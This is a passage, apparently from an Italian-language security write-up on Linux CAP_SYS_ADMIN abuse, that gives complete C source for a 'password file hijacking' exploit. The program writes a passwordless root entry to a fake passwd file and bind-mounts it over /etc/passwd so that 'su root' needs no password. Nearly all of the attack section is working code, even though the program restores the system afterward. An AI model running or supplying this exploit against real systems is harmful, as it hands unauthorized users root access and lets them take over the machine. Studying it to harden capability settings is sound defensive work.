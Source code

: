 **Analisi**: L'exploit funziona! Un utente normale (UID 1000) riesce ad eseguire operazioni di mount privilegiate.

### Exploit 2: Password File Hijacking

#### Concetto
Tentativo di sostituire `/etc/passwd` con file crafted usando bind mount per ottenere accesso root senza password.

#### Codice Sorgente

```c
// File: passwd_hijack.c  
// Compile: gcc -o passwd_hijack passwd_hijack.c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mount.h>

int main() {
    printf("=== EXPLOIT COMPLETO CAP_SYS_ADMIN ===\n");
    printf("Utente corrente: UID %d (non root!)\n", getuid());
    
    // Step 1: Crea passwd falso
    printf("\n1. Creazione /etc/passwd falso...\n");
    system("mkdir -p /tmp/fake_etc");
    system("echo 'root::0:0:root:/root:/bin/bash' > /tmp/fake_etc/passwd");
    
    printf("Contenuto passwd falso:\n");
    system("cat /tmp/fake_etc/passwd");
    
    // Step 2: Mostra passwd originale
    printf("\n2. /etc/passwd originale (prima riga):\n");
    system("head -1 /etc/passwd");
    
    // Step 3: Bind mount attack
    printf("\n3. Esecuzione bind mount attack...\n");
    if (mount("/tmp/fake_etc/passwd", "/etc/passwd", NULL, MS_BIND, NULL) == 0) {
        printf("✅ SUCCESSO: /etc/passwd sostituito!\n");
        
        printf("\n4. Nuovo contenuto /etc/passwd:\n");
        system("head -1 /etc/passwd");
        
        printf("\n🎯 ACCESSO ROOT TEORICAMENTE OTTENUTO!\n");
        printf("Teoricamente possibile: su root (nessuna password)\n");
        
        printf("\nPremi Invio per ripristinare sistema...");
        getchar();
        
        // Cleanup
        umount("/etc/passwd");
        printf("✅ Sistema ripristinato.\n");
    } else {
        perror("❌ Bind mount fallito");
    }
    
    system("rm -rf /tmp/fake_etc");
    return 0;
}
```
